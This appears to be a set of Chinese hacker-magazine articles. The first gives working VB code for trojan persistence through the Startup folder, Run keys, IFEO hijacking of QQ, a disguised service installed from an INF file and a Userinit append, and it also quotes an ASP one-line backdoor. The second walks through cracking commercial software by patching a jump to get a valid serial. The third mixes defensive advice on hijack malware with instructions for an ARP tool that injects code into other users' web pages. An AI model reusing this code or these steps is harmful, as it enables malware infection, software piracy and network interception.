宽带拨号曰：肉鸡是目的，木马是动力，启动是前提！我们精心编写的木马如果在启动环节就被杀毒软件扼杀在摇篮里，那么就真的是“出师未捷身先死”了！

配置项文件 ini 启动法、菜单启动法、写注册表启动法、创建服务法、伪造驱动，当然还有比较另类的劫持应用程序启动等等。为了照顾广大 VB 菜鸟，本文我们就使用 VB 来介绍启动木马的方法。

当我们放学回到家，激动地按下电脑开关时，电源就会马上向主板供电。起初电压在激荡的前进中并不稳定，CPU 会引导并发出一个重置信号，等到电压识别错误并修正后，电脑才会快步迈向“启动”这个目标，同时 CPU 也会从 FFFF0H 地址处开始执行，这正是 BIOS 的地址。接下来会检测硬件完整性，即我们通常所说的“自检”。

### 一、菜单启动法

Windows 启动后会自动运行“C:\Documents and Settings\Administrator\开始菜单\程序\启动”下的应用程序。

```vb
Dim aa As String, bb As String
Private Sub Form_Load()
    aa = "C:\Trojan.exe"  ' 木马路径赋值
    bb = Environ("userprofile") & "\开始\菜单\程序\启动"
    FileCopy aa, bb  ' 复制并创建文件
End Sub
```

这样就可以把木马复制到启动文件夹了，电脑重启后就会自动启动。当然这种技术早已过时，杀毒软件可以轻易地检测出来，不过瞒天过海依然是《孙子兵法》的一计，如图1。


Windows 会立刻召开部委扩大会议，参加会议的有：图形用户界面部（GUI）、驱动和应用程序接口保障部（SYS、API）等。会议的议题是内核加载、内核 ntoskrnl.exe 以及硬件抽象层 hal.dll 载入内存并进行再教育。根据启动顺序，首先加载驱动设备，然后是服务，其次是内核启动会话管理器 SMSS.exe，之后 Winlogon.exe、services.exe 以及 lsass.exe 等模块依次就绪。

根据上面的启动顺序我们可以得知，首先是驱动，其次是服务，最后才是程序。目前各类木马的启动方法基本上都是在加载过程中进行劫持来做文章的。就 Windows 启动而言，大致有写入系统配置、菜单启动、注册表启动等方式。

### 二、注册表启动法

我们可以把注册表简单地理解为 Windows 数据库，它记录着系统和应用程序的重要设置信息。就好比在网站入侵 SQL 注入，插入“<%execute request("value")%>”连接后门一样，我们在注册表的一些 Run 项、AutoRun 项中来添加一条木马的路径，这样也能达到自动启动的目的。

```vb
Private Sub Form_Load()
    Set r = CreateObject("wscript.shell") '创建wscript对象用于操作注册表
    r.regwrite "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\" & App.EXEName, App.Path & "\" & App.EXEName & ".exe" '写注册表，实现自启动
End Sub
```

不过目前的杀毒软件具有在 SSDT 全局监控注册表的基本防护，因此这种写入方法是会被拦截的。好在目前也有很多干扰杀毒软件防护的技巧，写入成功了，如图2所示。


### 三、劫持应用程序启动法

从严格意义上说，这并不能算是一种系统自启动方法，而更应该算是一种通过对第三方程序劫持路径从而实现自启动的方法，比如劫持常用的 QQ 等。它实质上还是操作注册表的 Image File Execution Options，即 IFEO 劫持。关于映像劫持的实现方法非常简单，关键在于是否能过主动防御，以后有机会的话我再详细介绍过主动的方法。

```vb
Private Sub Form_Load()
    Set r = CreateObject("wscript.shell")
    r.regwrite "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\qq.exe\Debugger", App.Path + "\" + App.EXEName + ".exe" '劫持QQ弹出木马自身
End Sub
```

IFEO 本意并不是“劫持”，而是管理映像文件执行参数。简单地说就是一个文件指向了“管理员委员会”，只是我们暗箱操作，修改了“会议精神”，这样一旦运行了 QQ 就会弹出我们的木马了，如图3。


### 四、创建服务启动法

服务是在后台运行的，相比注册表有着更好的隐蔽性，services.msc 可以查看电脑中的服务信息。使用 VB 创建服务，其实质就是创建文件流，生成一个 inf 脚本，最后再使用 ShellExecute 来实现装载服务，从而达到创建服务并运行程序的目的，脚本内容如下：

```ini
[Version]
Signature="$WINDOWS NT$"

[DefaultInstall.Services]
AddService=inetsvr,My_AddService_Name

[My_AddService_Name]
DisplayName=Windows Internet Service
Description=提供对Internet信息服务管理的支持。
ServiceType=0x10
StartType=2
ErrorControl=0
ServiceBinary=%11%\inetsvr.exe -r
```

创建为 inetsvr.inf 文件，其中 ServiceType 为服务类型，设置 0x10 为独立进程服务，设置 0x20 为共享进程服务。StartType 为启动类型，0 代表系统引导加载，1 代表 OS 初始化加载，2 代表服务控制管理器自动启动，3 代表手动启动，4 代表禁用。ErrorControl 为错误类型，0 表示忽略，1 表示执行并警告，2 表示切换到 LastKnownGood 最后一次保存设置，3 表示系统蓝屏并显示错误。ServiceBinary 为服务程序设置，%11% 表示 system32 目录，%10% 表示系统目录（WINNT 或 Windows 目录），%12% 为驱动目录 system32\driv。

```vb
Private Declare Function ShellExecute Lib "shell32.dll" Alias "ShellExecuteA" (ByVal hwnd As Long, ByVal lpOperation As String, ByVal lpFile As String, ByVal lpParameters As String, ByVal lpDirectory As String, ByVal nShowCmd As Long) As Long

Sub CreateService()
    Dim str As String
    str = "[Version]" & vbCrLf & "Signature=""$WINDOWS NT$""" & vbCrLf & ...
    ' 生成并写入 inetsvr.inf
    On Error Resume Next
    If Dir("c:\inetsvr.inf", vbNormal) = Empty Then
        Open "c:\inetsvr.inf" For Output As #1
        Print #1, str
        Close #1
        ShellExecute Me.hwnd, "install", "c:\inetsvr.inf", "", "", 5
    End If
End Sub

Private Sub Form_Load()
    Call CreateService
End Sub
```

在 Windows 2000 下使用 `Shell "rundll32.exe setupapi,InstallHinfSection DefaultInstall 128 c:\inetsvr.inf", vbNormalFocus`，而在 Windows XP 下则使用 `ShellExecute Me.hwnd, "install", "c:\inetsvr.inf", "", "", 5`，所以我添加了一个 ShellExecute API 声明。程序运行后会在 C 盘根目录下生成 inetsvr.inf 并且执行安装，查看 services.msc 可以看到服务已经创建了，如图4。当然，服务启动的成功率并不是很高，也存在着启动失败的问题，并且 360 对服务创建的监控也非常严密。

### 五、userinit 启动法

还记得我在上面介绍的系统启动大会吗？大会书记处书记就是 Winlogon。其实还有一个助理，她叫 userinit.exe，负责创建 svchost.exe 进程，创建完成后就下班走人，userinit.exe 进程就会自动结束。同时 Userinit 还要帮助 Winlogon 管理启动顺序，在启动大会中，杀毒软件同志是没有资格列席会议的，所以 userinit 要先于杀毒软件的启动。userinit 的“家”是在注册表的 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit` 小区，然而 userinit 的家是个合租房，项数据 `C:\WINDOWS\system32\userinit.exe,` 的后面有个逗号来分隔，在这个分隔后面是可以添加多个程序的，如图5。


```vb
Private Declare Function RegCreateKey Lib "advapi32.dll" Alias "RegCreateKeyA" (ByVal hKey As Long, ByVal lpSubKey As String, phkResult As Long) As Long
Private Declare Function RegSetValueEx Lib "advapi32.dll" Alias "RegSetValueExA" (ByVal hKey As Long, ByVal lpValueName As String, ByVal Reserved As Long, ByVal dwType As Long, lpData As Any, ByVal cbData As Long) As Long
Private Declare Function RegCloseKey Lib "advapi32.dll" (ByVal hKey As Long) As Long

Private Declare Function GetAsyncKeyState Lib "user32" _
(ByVal vKey As Long) As Integer 'KEY LOG

Private Const REG_SZ = 1
Const HKEY_LOCAL_MACHINE = &H80000002

Private Sub SaveString(hKey As Long, strPath As String, _
strValue As String, strData As String)
    Dim keyHand As Long
    Dim r As Long
    r = RegCreateKey(hKey, strPath, keyHand)
    r = RegSetValueEx(keyHand, strValue, 0, REG_SZ, ByVal strData, LenB(StrConv(strData, vbFromUnicode)))
    r = RegCloseKey(keyHand)
End Sub

Private Sub Form_Load()
    SaveString HKEY_LOCAL_MACHINE, "SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon", "Userinit", _
    "C:\WINDOWS\system32\userinit.exe;" & App.Path & "\" & App.EXEName & ".exe"
End Sub
```

到了一定程度，而且在启动顺序上也要优先于杀毒软件，总体来说还是不错的，如图6。

其实本文也算是比较菜的 ring3 启动方式浅谈，仅仅是在注册表、服务等这些常见项目的暗箱操作。更上一个台阶的自启动思路就是 movefile 和 movefileex 的配合，以及重命名注册表项过去动的方法。另外，DLL 注入也是一种非常不错的方法，比如注入到 SMSS、Winlogon、services、lsass 这些“官僚”程序中去。但遗憾的是，VB 在历史发展的长河中也存在着一定的局限性，比如驱动自启动方法以及 rootkit 技术，还有比较概念化引导区自启动等。这些就需要使用 Delphi 或者 C 来向着 ring0 级进行曲折的探索了！


图6

> （文章中涉及到的相关代码，已经收录在了光盘中）

userinit 启动是目前比较流行的一种启动方式，隐蔽性提高。


## 软件破解技术初探

鬼谷先生@H4CK.CN

“软件破解”、“逆向工程”在小菜们眼中一直以来都是难以企及的神秘技术，而复杂的反汇编代码、一条一条冗繁的机器指令也一直都是困扰小菜们学习破解技术的最大障碍。但是在信息安全的各个领域我们却又离不开逆向工程、反汇编调试技术，因此无论有多少困难我们都不能退缩，迎难而上才是黑客精神的精髓所在！

本文我就和大家一起来探讨一下软件的破解技术以及反汇编调试技术的基础。在每期的《黑客X档案》杂志上都会有软件破解的相关技术文章，也希望大家能够仔细阅读，因为其中有许多方法和技巧都是非常值得我们学习的。都说“工欲善其事，必先利其器”，先来介绍一下我们需要用到的工具吧，主要用到了查壳工具 PEiD 和调试工具 OD。


图1

- 软件破解的思路相对比较清晰，一般都是按照如下的步骤：
- 1. 查壳；有则脱之，无则调试
- 2. 反汇编调试
- 3. 理清注册流程
- 4. 获得注册码

如果我们只是想正常地使用要破解的软件，是不一定非要写出注册机的，可以爆破或找出注册码就行了。下面我就以一个简单的例子来介绍一下破解的一般流程。我们要破解的软件是 Flash ScreenSaver Maker 3.356（一个制作 FLASH 屏保的小软件），它的注册方式为本地验证，也就是用户名+注册码，我们的破解目标是逆向出算法并编写注册机。


图2

### 一、查壳

使用 PEiD 载入软件来检测是否加了壳，结果发现软件加了“UPX 0.89.6 - 1.02 / 1.05 - 1.24 -> Markus & Laszlo”壳，这个壳应该是属于 UPX 的变种，我们使用 PEiD 自带的通用脱壳工具就可以轻松地脱壳了，具体操作如图2所示。

在弹出的通用脱壳插件窗口中先点击“-->”按钮用来获取程序的真实入口地址，然后点击“Unpack”按钮进行脱壳操作，如图3。在脱壳即将完成时一般会提示我们是否使用 ImpREC 插件来进行修复，这时我们选择“是”，因为在脱壳过程中有可能损坏了输入表，导致了脱壳后的程序无法正常运行，我们修复一下就可以将损坏的输入表修正了，具体的操作如图4所示。

这样就会在程序的目录下生成一个脱壳后的文件了，如图5。从图中我们可以看到脱壳后的程序 FlashScreenMaker.exe.unpacked.exe 要比原来的程序大很多，这说明 UPX 是一个压缩壳，而且压缩比还是非常高的。接下来我们就可以使用 OD 载入脱壳后的程序进行动态调试了。如果大家有兴趣的话，也可以使用 IDA 对程序注册算法进行逆向还原，其实 IDA 完全可以实现所有的功能。不过毕竟我们对 OD 的使用早已经是轻车熟路了，所以还是使用 OD 加载 Flash-ScreenMaker.exe.unpacked.exe 程序进行动态调试吧。


图3


图4

# 主题乐园

函数的头部，但是函数头部的信息有时候不是很明显，那我们就向前找一段代码，然后下断点进行动态调试来理清注册流程。


### 二、反汇编调试

使用 OD 加载脱壳后的程序后就会来到如图6所示的界面，我们选择“插件”－“Ultra String Reference”－“Find ASCII”来查找程序中出现的字符串资源。这个字符串资源是做什么用的呢？其实它就是程序中出现的提示信息，比如我们在注册失败后给出的提示信息等。

### 三、理清注册流程

来到反汇编窗口，向上查找。那么一般要向上找多远才行呢？根据我个人的经验：向上找，找到第一条 retn 指令后的连续 push 指令的第一句，如图8，找到后按 F2 在函数头部下断点。这里需要注意，为了以防万一我们可以在多个 PUSH 指令上下断点。接下来就可以进行动态调试了，动态调试的方法非常简单，先按 F9 将程序运行起来，然后进行注册，如图9。


在字符串资源列表中我们可以清楚地看到如图7所示的信息：其中有注册失败的信息，也有注册成功的信息，还有关于注册码长度限制的信息等。这就是我们要找的，双击第一条注册失败的信息，就可以来到反汇编窗口并查看反汇编指令代码了。

一般在来到这个地址后我们需要继续向上查找，找到这个函数的头部。

点击“OK”按钮后程序就会被断下来，来看看是哪个位置触发的。

断点起的作用呢？如图10，原来是在 004B78FC 处断了下来，这也就是说我们选择的 retn 后的第一个 push 指令是正确的。但是按照以往的经验，也不是每次破解都会符合这个规律，所以我们可以多下几个断点来以防万一。


接下来就是单步跟踪了，主要是通过按 F7 和 F8 来进行动态调试。F7 和 F8 到底是什么作用呢？F7 是单步步入，就是当遇到 call 指令的时候会进入 call 指令进行深入的跟踪；而 F8 是单步步过，也就是当遇到 call 指令的时候不跟入而直接执行，将 call 的细节执行完再向下执行。下面我们先使用 F8 调试一下，在每按一下 F8 后要注意观察各个窗口中数据的变化情况。当我们按 F8 步过 004B793D 的时候，发现寄存器 ECX 的值变成了软件的名称，如图11。


我们继续向下按 F8 步过，在程序步过 004B7945 的时候，寄存器 EDX 的值变成了我们输入的用户名，如图12。也就是说从这里开始，程序已经开始注册流程了，所以在以后每调试一步我们都要仔细观察各个寄存器和堆栈中数据的变化情况。


继续按 F8 步过，在步过 004B794F 的时候，寄存器 EAX 的值变成了用户名和软件名的连接，如图13。初步判断程序可能是要对这个字符串进行运算了，继续按 F8 调试，下面会经过很多的运算，代码也比较复杂，因此我们就先直接按 F8 步过，直到来到了如图14所示的界面。在这儿我们遇到了一个比较指令，然后下面就是跳转指令，如果跳转不实现就会出现注册失败的信息。但是在调试窗口中看到了两个字符，就是 c 和 2，想想我们的注册码中第二位不就是 2 吗？这里就是比较这位是否为 c，如果是就跳到下面继续计算，如果不是就显示注册失败。这也就是说我们的注册码第二位应该是 c。


在寄存器窗口中我们还看到了一个长的字符串，似乎是经过了 MD5 加密的，这里先不去管它。接下来就是将那个跳转指令修改一下，将 je 更改成 jne。方法非常简单，在要修改的指令上点右键，选择“汇编”，如图15，然后在弹出的编辑窗口中进行指令的修改就行了，如图16。


# 主题乐园


图16


图17

最后，关闭调试器修改注册码来进行注册，用户名为 **GUIGUXI-ANSHENG**，注册码为 **1C7-4507-8C0**，果然注册成功了。在理清注册流程的同时，我们已经可以通过调试来获取注册码了。虽然还没有弄清楚完整的注册算法，但是已经可以注册成功了。当然，要想达到大师级的境界，还必须要对算法进行详细的分析，将算法的细节进行研究，从而逆向推理出注册机算法。这就需要深厚的反汇编功力和逆向分析逻辑能力了，当然也离不开时间和经验的积累。希望在以后的日子里能和大家一起来探讨逆向调试技术。

（文章中涉及到的 PEID、OD、fsmaker，已经收录在了光盘中）


图18


## 劲疾，又见劲疾——我不怕不怕啦！

去年，我的电脑不幸中了劫持型的病毒，出现的症状是这样的：

- 杀毒软件、防火墙，甚至是一些辅助的工具全部无法使用；
- 只要出现了“杀毒”两字，网页就会关掉；
- 启用安全模式会蓝屏；
- 设置显示隐藏文件也失效；
- 浏览器乱指向；
- 连我的网络也断掉了……

尽管病毒的种类非常繁多，可是细数目前流行的劫持型病毒也不外乎那么几种：

- 好久以前风靡网络的 AV 终结者等使用映像劫持技术的病毒；
- 专门劫持浏览器的病毒；
- 偷梁换柱劫持 HOST 跳转到指定网址的病毒；
- 导致不能正常上网的 LSP 劫持型病毒；
- 令人咬牙切齿的内网限制网速的 ARP 劫持病毒等。

今天我们就逐一地来介绍一下。

## 映像劫持：十分钟玩转

Windows 映像劫持技术（IFEO）的故事：大家肯定都遇到过这样的情况，尤其是在映像劫持型病毒横行的时候，一个正常的程序，无论是把它放在哪个目录下，或者是重装用系统安装盘修复过，都出现无法运行的情况。要么就是出现错误提示“找不到文件”，或者是双击运行后没有任何的反应，又或者是运行程序 A，结果程序 B 却自动运行了，但改名后却又可以正常运行了。感染了映像劫持型病毒的系统，其表现为常见的杀毒软件、防火墙、安全检测工具等均没有反应。于是大部分用户只能去重装系统了，但是有经验或者歪打正着的用户将程序更改个名字，就发现它又能正常运行了，这便是映像劫持的最典型特征。

映像劫持技术的本意是为一些在默认系统环境下运行时有可能引发错误的程序执行体提供一个特殊的环境设定。由于它主要是用来调试程序用的，因此对于一般用户的意义并不大；默认情况下只有管理员和 local system 才有权读写和修改。

当一个可执行程序位于 IFEO 的控制中时，它的内存分配则根据该程序的参数来设定，而 Windows NT 架构的系统能通过这个注册表项的使用与可执行程序文件名匹配的项目来作为程序载入时的控制依据……我们打开“开始”→“运行”栏，输入 regedit 打开注册表编辑器，定位到 “HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options”，选中新建项并设置 `debugger` 为 `C:\WINDOWS\system32\cmd.exe` ……

当然我们还可以来点儿更绝的方法，编写一个注册表文件并双击导入，具体的内容如下：

```reg
Windows Registry Editor Version 5.00

[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer]
"RestrictRun"=dword:00000001

[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\RestrictRun]
"1"="cmd.exe"
"2"="regedit.exe"
"3"="qq.exe"
"4"="wscript.exe"
"5"="iexplore.exe"
"6"="alg.exe"
"7"="csrss.exe"
"8"="explorer.exe"
"9"="lsass.exe"
"10"="smss.exe"
"11"="services.exe"
"12"="svchost.exe"
"13"="winlogon.exe"
```

这样就建立了一个允许运行的列表，在该列表外的进程统统无法被成功运行。我们可以随时添加或者删除一些自己需要，或者是排除自己不需要的进程。


图1


图2


图3

在知道了利用方法后，防范也就变得很简单了。在“开始”→“运行”栏输入 regedt32（注意不是 regedit），找到 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options`，把 administrators 和 system 这两个管理权限修改为拒绝，确定后保存即可，如图3。

## 浏览器劫持：揭露背后的阴谋

什么是浏览器劫持（Browser Hijack）呢？浏览器劫持是目前最流行的一种网络攻击方法，恶意程序通过 DLL 插件、BHO、控件注册、Winsock LSP、远程进程、Rootkit 等形式对用户的浏览器进行篡改，使用中的浏览器在访问正常网站时被转向到恶意的网页，IE 浏览器主页或搜索页等被修改为劫持软件所指定的网址地址等。

# 主题乐园

对付浏览器劫持，一般来说简单的手工修复注册表即可。但是目前也有很多病毒所使用的浏览器劫持方法非常高明，很难以被清除，因此我们不能光靠手工修复注册表，最好再借助一些辅助程序来帮助我们解决这类问题。我建议大家先使用多种辅助工具多管齐下，联合绞杀，当然一定要使用最新的程序，比如使用 360 安全卫士的 IE 修复功能，或是使用 QQ 医生来修复 IE 等，如图4。类似这样的修复工具还有很多，比如超级魔法兔子、黄山 IE 修复专家、瑞星卡卡等。

双击打开程序后点击扫描，扫描完毕后点击修复就行了，如图5。


图5


图4

如果是遇到了 RootKit，我们都知道，RootKit 使用了更高级的后台保护技术，程序工作在系统核心级 Ring 0，在编写时必须严格遵守系统的规范，稍有不慎，系统就会瘫痪。因此要编写这类程序，需要对系统结构有清楚的了解。位于 Ring 0 层的是系统核心模块和各种驱动程序模块，所以位于这一层的恶意程序也是以驱动的形式存在的，而不是一般的 EXE。程序作者可以把后门编写成符合 WDM 规范（Windows Driver Model）的驱动程序模块，把自身添加到注册表的驱动程序加载入口，这样就实现了“无启动项”运行。一般的进程查看器都只能枚举可执行文件 EXE 的信息，所以通过驱动模块和执行文件结合的后门程序便得以生存下来了。由于它运行在 Ring 0 级别，拥有与系统核心同等级的权限，因此它可以更轻易地把自己隐藏起来，无论是进程信息还是文件体，甚至通信的端口和流量也能被隐藏起来。在如此强大的隐藏技术面前，无论是任务管理器还是系统配置实用程序，甚至系统自带的注册表工具都会变得黯然失色。

这类程序在浏览器劫持的应用上，一般只负责隐藏恶意 BHO 文件、启动项和进程信息等；但也不排除今后它们会应用到别的方面，它们的权限很高，主要通过控制系统核心库（ntoskrnl.exe）中的相关函数，比如 NtDeleteFile、NtDeleteKey 等，来达到保护实体文件的目的。

针对这种情况，我特别给大家介绍一款利器 VundoFix。VundoFix 可以找出隐藏劫持系统文件的 DLL 并安全清除；比如当 Winlogon.exe 被恶意软件劫持的时候，或者是连 Unlocker 都无法去除的恶意软件，使用这个只有几百 KB 大小的程序就能够轻松地找出隐藏在系统中甚至是劫持系统文件的 DLL 并安全清除。

## LSP劫持：莫名其妙的网络

LSP 的全称为“Windows Socket Layered Service Provider”（分层服务提供商），这是 Winsock 2.0 才有的功能，它需要 Winsock 服务提供商接口（Service Provider Interface，SPI）才能实现。SPI 是一种不能独立工作的技术，它依赖于已经存在的基本协议，比如 TCP/IP 协议等，在这些协议上派生出的子协议即为“分层协议”，比如 SSL 等，它们必须通过一定的接口函数来调用，LSP 就是这些协议的接口。由于 LSP 直接从 Winsock 获取信息，而所有浏览器最终的数据传输都必须建立在 Winsock 接口上，所以一旦 LSP 层被恶意劫持，那么所有数据的传输都有可能被劫持，断网就是其最明显的表现之一。

我们打开注册表编辑器，定位到 “HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\WinSock2\Parameters\Protocol_Catalog9\Catalog_Entries”，这就是 LSP 在注册表中的位置，如图6。


图6

XP 系统下带有两个 LSP 接口，分别负责 TCP/IP 组件（mswsock.dll）和 NTDS 组件（winrnr.dll）的正常工作，而 LSP 劫持则是把自己加入到该项内，并把自身的优先权提高。比如默认情况下 TCP/IP 组件的优先权为 000000000001，而发生了 LSP 劫持后，恶意程序可能会使 LSP 把自身改为 000000000001，而使原有的 LSP 项目被推后为 000000000002，这样就使得数据包轮询的时候优先被恶意 LSP 处理了。

知道了原理后，一个清晰的修复方案也就出来了。我们可以使用 360 安全卫士的 LSP 修复功能，运行 360 后选择“高级”下的“高级工具箱”，选择“LSP 修复工具”，直接点击“修复”，“恢复 Winsock LSP”或“恢复 Winsock LSP 到初始状态”即可，如图7。


图中显示四个问号的是 QQ 医生的 dll 文件，所以并不是所有显示问号的都是恶意程序的，这点大家要注意。其实它利用的原理就是修复注册表的 LSP 项的有关内容。我们在 360 安全卫士的文件夹下可以看到 WinSockLSP 和 WinSockLSPIFSL 两个注册表文件，打开 WinSockLSPIFSL 后可以看到里面的内容为：

```reg
Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\WS2IFSL]
"Start"=dword:00000001
```

这就是恢复注册表的键值。

## HOSTS劫持：莫名其妙的转向

另外一个和浏览器劫持息息相关的文件就是 hosts。hosts 是一个系统文件，记录了一些网站的 IP 地址和域名的对应关系，当我们访问 hosts 文件中记录的网站时，就会自动定向到相应的 IP 地址上。如果被病毒加以恶意利用，就可以通过修改 hosts 文件而使访问正常的网页时被定向到指定的恶意网址。hosts 文件所在的路径为 “C:\Windows\System32\Drivers\etc”，正常的 hosts 文件的内容如图8所示。我们再来看一个被恶意修改的 hosts 文件，如图9。大家可以看到 www.baidu.com、www.qq.com、www.163.com、www.google.cn 都被指向到了 222.189.238.10 这个 IP 地址上，如果这是一个恶意地址，那么后果可想而知。若 hosts 文件发生了劫持，我们只需要把 hosts 文件修改为正常状态即可。

看到这儿可能有小菜不禁要问了：那有没有既方便又安全的浏览方式呢？答案当然是有的，不过我们需要先了解一下什么叫沙盘。沙盘，我们可以把它理解成一种容器，里面所做的一切都可以推倒重来。军事上常用沙盘来进行一些战争区域的模拟，当不使用的时候可以把沙子推平重来。而我们这里所说的沙盘其实是一种安全软件，可以将一个程序放入沙盘中运行，这样它所创建、修改、删除的所有文件和注册表都会被虚拟化重定向。也就是说所有操作都是虚拟的，真实的文件和注册表不会被改动，这样可以确保病毒无法对系统关键部位进行改动而破坏系统。另外现在的沙盘一般都有部分或完整的类似 HIPS 的程序控制功能，程序的一些高危活动会被禁止，比如安装驱动、底层磁盘操作等。目前沙盘主要分为两大类：一是采用虚拟技术的传统沙盘，另一个就是采用策略限制的沙盘。


大家先来看下面这张图，如图10。当我们运行一个程序时，程序会读取硬盘上的数据，这时数据由硬盘流向程序，然后数据经过处理和显示后再由程序写回到硬盘中，这是正常模式下的数据流动。再来看一下这张图，如图11，在沙盘模式下我们运行一个程序，它会先读取你存在硬盘中的数据记录，然后在你使用的过程中显示出来，最后再写回硬盘以待下次使用。而沙盘的作用就是改变了程序写入数据的地点，不让它写回到硬盘中，而是写到由沙盘所创造的一个虚拟区域当中。


我们正是要利用沙盘的这种特性来给我们的 IE 找一把保护伞。Sandboxie 便是这样一款沙盘工具，基本上一路点击“下一步”就可以安装好 Sandboxie 了。期间会弹出选项，我们选择 chinese 语言，安装完成后运行，程序的主界面如图12所示。点击右键，选择“沙盘 DefaultBox”→“在沙盘中运行”→“运行网页浏览器”即可。这时 Sandboxie 的 PID 状态就会改变为“激活”，说明我们已经在沙盘模式下打开浏览器进行访问了。我们还可以在“沙盘”选项下选择“创建新沙盘”，或者在“配置”选项下选择方便自己的设置，比如添加沙盘模式到右键、开机自动等其它实用的功能。不过鉴于其它功能和本文所要介绍的内容关联性不大，所以这些功能就交给大家慢慢体验了。关于浏览器劫持我就暂时介绍到这儿。

这样，主机 A 就知道了主机 B 的 MAC 地址，它就可以向主机 B 发送信息了。同时它还会更新自己的 ARP 缓存表，这样下次再向主机 B 发送信息时，直接从 ARP 缓存表里查找就可以了。ARP 缓存表采用了老化机制，在一段时间内如果表中的某一行没有使用，就会被删除，这样可以大大减少 ARP 缓存表的长度，加快查询速度。


图12

## ARP劫持：欺上瞒下的代表人物

ARP，也就是地址解析协议（Address Resolution Protocol），通过遵循该协议，只要我们知道某台电脑的 IP 地址，就可以知道其物理地址。在 TCP/IP 网络环境下，每个主机都分配了一个 32 位的 IP 地址，这种互联网地址是在网际范围标识主机的一种逻辑地址。为了让报文在物理网络上传送，必须知道对方目的主机的物理地址，这样就存在了把 IP 地址变换成物理地址的地址转换问题。我们以以太网环境为例，为了正确地向目的主机传送报文，必须把目的主机的 32 位 IP 地址转换为 48 位以太网地址，这就需要在互连层有一组服务将 IP 地址转换为相应的物理地址，这组协议就是 ARP 协议。

那么 ARP 劫持又是怎么发生的呢？每台安装有 TCP/IP 协议的电脑里都有一个 ARP 缓存表，表里的 IP 地址与 MAC 地址是一一对应的。我们以主机 A（192.168.1.5）向主机 B（192.168.1.1）发送数据为例。当发送数据时，主机 A 会在自己的 ARP 缓存表中寻找是否有目标 IP 地址。如果找到了，也就知道了目标的 MAC 地址，直接把目标 MAC 地址写入到帧里面发送就可以了；如果在 ARP 缓存表中没有找到相对应的 IP 地址，主机 A 就会在网络上发送一个广播，目标 MAC 地址是“FF.FF.FF.FF.FF.FF”，这表示向同一网段内的所有主机发出这样的询问：“192.168.1.1 的 MAC 地址是什么？”而网络上的其它主机并不响应 ARP 询问，只有主机 B 接收到这个帧时，才向主机 A 做出这样的回应：“192.168.1.1 的 MAC 地址是 00-aa-00-62-c6-09”。

ARP 攻击就是通过伪造 IP 地址和 MAC 地址来实现 ARP 欺骗，能够在网络中产生大量的 ARP 通信量以使网络阻塞。攻击者只要持续不断地发出伪造的 ARP 响应包，就能更改目标主机 ARP 缓存中的 IP-MAC 条目，造成网络中断或中间人攻击。ARP 攻击主要存在于局域网环境中，局域网中如果有一个人感染了 ARP 木马，则感染该 ARP 木马的系统将会试图通过“ARP 欺骗”手段截获所在网络内其它计算机的通信信息，并因此造成网络内其它计算机的通信故障。

相信大家，尤其是处于学校局域网中的同学们，对于 P2P 终结者、聚生网管等所谓的网管软件都痛恨不已吧，当然还有叉子们所熟知的欺骗工具 Zxarps、Cain 等等，它们都是利用了这个原理。提到的这些工具在 X 档案上也都出现过多次了，这里我就以 maxhijack1.4 为例，这是一款 No Arp 欺骗的会话劫持工具，支持上行和下行的双向劫持。打开 maxhijack1.4（需要 winpcap 以及 .net 支持），其界面如图13所示。如果电脑中只有一块网卡的话，则默认已经被选中，填写网关 IP 地址和本机 IP 地址，如果使用代理的话就勾选上。这个代理可不是网络上其它公网 IP 地址的代理，关于这个代理我会在下文中提到的。“被动恢复 CAM”是等待交换机自行恢复 CAM 表的意思（不建议使用），勾选上“HTTP 嗅探”，“HTTP 代码注入”部分就填写自己想插入到目标主机网页的代码，勾选上“分时转发”并设置转发的时间。“劫持方向”的意思就是假设本机电脑的 IP 地址为 192.168.1.2，目标电脑的 IP 地址为 192.168.1.3，则劫持方向就应选择“下行”；如果本机 IP 地址为 192.168.1.3，目标电脑的 IP 地址为 192.168.1.2，则劫持方向就选择“上行”。其它是发包频率设置，大家可自行设置，不了解的话保持默认即可。

设置好后点击“扫描网络”，这时会弹出一个对话框，意思是“是否确定扫描整个局域网”。点击确定后在左侧空白处就会出现内网中在线的主机，这时点击内网在线主机，就会发现“设为代理”的选项亮起来了。所以上面的代理实际上也就是使内网中其它电脑作为傀儡机的意思，然后点击“开始”按钮就可以进行攻击了，如图14。


图13

如果我们启用的是下行劫持。例如本机的 IP 地址为 192.168.3.3，目标主机的 IP 地址为同一个子网内的 192.168.3.4，那么当 192.168.3.4 访问任何网页时都会……被插入代码。如果我们启用的是上行劫持，例如本机为220.223.222.221，目标为同一个子网内的220.223.222.225，那么任何访问220.223.222.225的客户端都会被插入代码。……如果没有的话我们就需要在自己电脑上多下工夫了，可以使用ARP防火墙，比如彩影ARP防火墙，或者360安全卫士的ARP防火墙等都可以，如图15。


说到这里还有一个问题，如何确定内网有ARP欺骗发生呢？目前比较有效的检测ARP欺骗攻击的方法主要有两种，一种是在局域网内进行抓包分析，另一种是在三层交换机上查询ARP表。不过网络上也有很多方便的工具，比如使用欣向巡路之ARP工具，默认在IP/MAC清单选项下选择“扫描”，然后切换到ARP欺骗监测选项下选择开始监听即可，如图16。

怎么样，现在你还怕被恶意程序或者内网其他的内鬼所劫持吗？放心吧，仔细阅读本文的内容并寻找更多的资料来仔细阅读，多多实践，相信你很快就能够玩转内网，并能够很快地处理这些劫持的问题……

> （文章中涉及到的VundoFix、Sandboxie、maxhijack1.4、欣向巡路之ARP工具等，已经收录在了光盘中）

# 一学一个聪明
## 教你亲手克隆网站“攻击”

